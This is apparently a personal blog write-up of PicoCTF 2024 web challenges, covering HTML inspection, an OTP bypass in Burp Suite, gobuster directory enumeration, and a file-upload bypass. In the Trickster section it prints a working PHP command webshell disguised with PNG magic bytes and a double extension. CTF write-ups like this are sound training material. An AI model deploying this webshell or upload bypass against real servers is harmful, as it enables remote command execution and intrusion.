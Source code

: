```yaml
---
title: "PicoCTF 2024: Web Exploitation"
categories: [blogs]
tags: [picoctf, coding, ctf, web]
---
```


I have considered myself... practically done with the Forensics category for PicoCTF 2024. It truly is a guessfest whether or not your first solution is correct - I can't believe throwing out a random `find` into the command-line actually gave me the answer for [Mob psycho](picoctf-2024-forensics#mob-psycho)...

Well, here we go again, this time in my arguably best non-forensics category - Web Exploitation! Once again, I will be going through each of the challenges and solving them, while writing out my thought process for each challenge.

> Same thing as Forensics, this blogpost will describe the challenges and give the solutions to them - but I will not be giving out the flag in its entirety. All solutions with the flag in plain text will have the flag replaced by `picoCTF{flag}`.

1. Table of Contents
{:toc}

# WebDecode

> **Difficulty**: Easy \
> **Categories**: none

Well... We're thrown straight into a website that looks *really* suspicious. I'll perform due dilligence and... inspect the site HTML. Nothing in the home page, so I'll go into the About page.

And upon loading the About page, wow, the **very loud** text saying "Try inspecting the page!! You might find it there" really confirms that I'm getting somewhere.

Hitting F12 to open up my DevTools and I immediately see a weird section of HTML:

```html
<section class="about" notify_true="cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9">
   <h1>
    Try inspecting the page!! You might find it there
   </h1>
   <!-- .about-container -->
  </section>
```

That string looks very suspicious. One quick run into the base64 decoder again, using:

```
$ echo "cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9" | base64 -d
```

Aaaaaaaaand we've got it! Very simple challenge.

# Unminify

> **Difficulty**: Easy \
> **Categories**: obfuscation, minification

Yet another webpage, similar to [WebDecode](#web-decode) above. Once again, let's open up our DevTools and scan through the HTML.

It didn't take long before I reached this section of HTML:

```html
<p class="picoCTF{flag}"></p>
```

That's our flag, time to copy it and submit it.

# Bookmarklet

> **Difficulty**: Easy \
> **Categories**: obfuscation, browser

The website gives us another site, in the same template as [Unminify](#unminify). It also gives us a JavaScript bookmarklet to run as well. As it describes itself, it's a bookmarklet - very similar to my Kamaitachi maimai DX [import script](https://github.com/j1nxie/kt-maimaidx-site-importer). Let's create a quick bookmark and throw this in as the URL.

As soon as we click the bookmarklet, the flag shows up as an alert!

# IntroToBurp

> **Difficulty**: Easy \
> **Categories**: none

Well, as described by the challenge name, we'll need [BurpSuite](https://portswigger.net/burp) for this. Let's pull up BurpSuite and open the website in BurpSuite's browser (Proxy > Intercept > Turn on Intercept).

We see a little form that tells us to put our information in, and being the sane person that I am, I will put in my fully 100% real information into this.

![Screenshot of IntroToBurp form](/assets/img/picoctf/introtoburp1.png)

Hitting the Register button, while forwarding the packet as-is to the server, brings us to another form.

![Screenshot of IntroToBurp 2FA](/assets/img/picoctf/introtoburp2.png)

It's asking for an OTP code... but I haven't received anything. Weird. Let's try throwing in a random string... like `a` and submit it. BurpSuite nicely catches that request for us, and we can see the form data `otp=a` in the raw request packet. Let's try... removing that and see what happens!

After removing the OTP code from the form data, we got ourselves a nice malformed... well... form data sent over the wire. Let's see how the server reacts... And we got our flag!

# Trickster

> **Difficulty**: Medium \
> **Categories**: none

This is actually... a pretty tough one if you don't know where to immediately start. I opened up the site that the challenge gave, and there was no clear entry points to... anything, really. Uploading a PNG only gets a result string shown to you, like below.

![Screenshot of Trickster form](/assets/img/picoctf/trickster1.png)

I tried accessing a random directory, e.g. `atlas.picoctf.net:<port>/what`, and I got a 404 Not Found. That's expected. I also see this is running Apache, which means... there's PHP. But we haven't seen any clear entry points to get an arbitrary PHP script running here.

Let's get back to the root site. Sitting here won't do us any good, I guess it's time to use some tools? Using `gobuster`, and running a brute-force for URIs like such:

```
$ gobuster dir --url http://atlas.picoctf.net:<port>/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:<port>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:49884/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We're seeing `robots.txt` that we can access, and `/uploads` being redirected to the root directory - looks like there's gonna be an accessible folder there. Let's try accessing `robots.txt`...

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So the *very root* directory of `/uploads/` is not crawled, along with the file `instructions.txt`. Let's try looking at `instructions.txt`.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Interesting... It looks like this doesn't do much validation on the PNG files themselves, other than checking for the `.png` extension *existing* in the file name, and the first few bytes containing `PNG`. I guess the uploaded files will also be stored under `/uploads/<file_name>`? That's an entry for our PHP now, no?

I will modify [easy-simple-php-webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) a tiny bit, so it has the magic bytes for PNG at the top.

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Along with that, I'll add the `.png` extension, saving it as `webshell.png.php` so it passes the extension check. Let's try uploading this. The form accepted it without any complaints! Time to try accessing this webshell under `/uploads/webshell.png.php`.

We're in. Let's try running `ls ../` to see the root directory. There's a weird file with the name `MQZWCYZWGI2WE.txt`. A simple `cat` on this file finally gives us the flag we're looking for!

# Afterwords

The final challenge of this category - titled "elements", honestly deserves a post of its own. It's of another level, and I've never seen myself so stuck on one. With that being said, that's practically all the solvable web challenges for PicoCTF 2024 as of writing this post. Thank you all for reading through to the end!
